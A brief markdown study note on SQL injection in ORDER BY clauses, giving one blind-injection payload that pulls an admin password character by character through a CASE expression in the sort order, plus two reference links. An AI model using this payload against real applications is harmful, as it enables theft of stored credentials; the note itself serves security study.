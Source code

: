 # sql injection

## order by

you can not use union statement after order by statements[^1], but we can use some
query as condition in order statment.


```
(CASE WHEN (SELECT ASCII(SUBSTRING(password, 1, 1)) FROM users where username = 0x61646D696E) = 65 THEN date ELSE title END)
```

## sql injection

Cheatsheet[^2]

[^1]: http://josephkeeler.com/2009/05/php-security-sql-injection-in-order-by/

[^2]: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
